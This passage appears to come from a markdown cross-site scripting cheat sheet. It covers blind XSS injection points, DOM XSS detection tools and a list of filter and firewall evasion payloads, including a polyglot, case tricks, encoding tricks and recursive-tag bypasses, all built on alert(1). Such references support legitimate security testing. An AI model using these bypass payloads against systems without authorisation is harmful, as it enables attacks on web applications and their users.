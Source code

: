 ### **Common Injection Points**
- **Review and feedback forms**
- **Address fields in e-commerce sites**
- **User-Agent headers**
- **Log viewers**
- **Chat applications**
- **Moderation panels**

### **Video References**
- [Blind XSS Hunting](https://www.youtube.com/watch?v=uHy1x1NkwRU)

---

## **4. DOM-Based XSS**
DOM XSS occurs when JavaScript dynamically manipulates the page without sanitizing user input.

### **Tips**
- Manual detection is difficult; use tools like:
  - **Burp Suite PRO**
  - **[RA2 DOM XSS Scanner](https://github.com/dpnishant/ra2-dom-xss-scanner)**

### **Video References**
- [Understanding DOM XSS](https://www.youtube.com/watch?v=gBqzzhgHoYg)

---

## **5. XSS Filter Evasion Techniques**
### **General Bypass Techniques**
- Replace `<` and `>` with **HTML entities**:
  ```html
  &lt;script&gt;alert(1)&lt;/script&gt;
  ```
- Use **XSS polyglots**:
  ```html
  javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
  ```
  - [Full XSS Polyglots List](https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626)

### **XSS Firewall Bypass**
- **Bypass lowercase filtering**:
  ```html
  <scRipT>alert(1)</scRipT>
  ```
- **Break firewall regex using new lines**:
  ```html
  <script>%0alert(1)</script>
  ```
- **Double Encoding**:
  ```plaintext
  %2522
  ```
- **Recursive filters bypass**:
  ```html
  <src<script>ipt>alert(1);</scr</script>ipt>
  ```
- **Injecting anchor tags without whitespace**:
  ```html
  <a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">
  ```
- **Bypassing whitespace filtering using a bullet (`•`)**:
  ```html
  <svg•onload=alert(1)>
  ```